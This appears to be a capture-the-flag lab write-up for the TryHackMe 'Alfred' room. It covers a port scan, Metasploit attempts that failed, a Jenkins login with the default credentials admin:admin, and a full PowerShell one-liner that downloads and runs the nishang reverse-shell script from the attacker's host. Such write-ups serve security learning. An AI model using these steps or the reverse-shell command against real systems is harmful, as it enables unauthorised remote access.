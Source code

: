 # Alfred

> Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.

https://tryhackme.com/room/alfred



export IP=10.10.232.32


Serveur Web UP : http://10.10.232.32

```
RIP Bruce Wayne
Donations to alfred@wayneenterprises.com are greatly appreciated. 
```

PORT     STATE SERVICE            REASON  VERSION
80/tcp   open  http               syn-ack Microsoft IIS httpd 7.5
3389/tcp open  ssl/ms-wbt-server? syn-ack
8080/tcp open  http               syn-ack Jetty 9.4.z-SNAPSHOT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


## MetaSploit => FAILED

auxiliary/scanner/http/jenkins_command 

set RHOSTS 10.10.232.32
set LHOST 10.9.28.128

exploit/multi/http/jenkins_metaprogramming => FAILED
exploit/linux/misc/jenkins_java_deserialize => FAILED


## Brute force login : EAYSY 

admin:admin

Création d'une nouvelle tâche "Build"

```ps1
powershell -c "Get-Service"
```

OK


Tips: use nishang to get a reverse shell

https://github.com/samratashok/nishang

wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1


```ps1
powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.28.128/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.9.28.128 -Port 9001
```
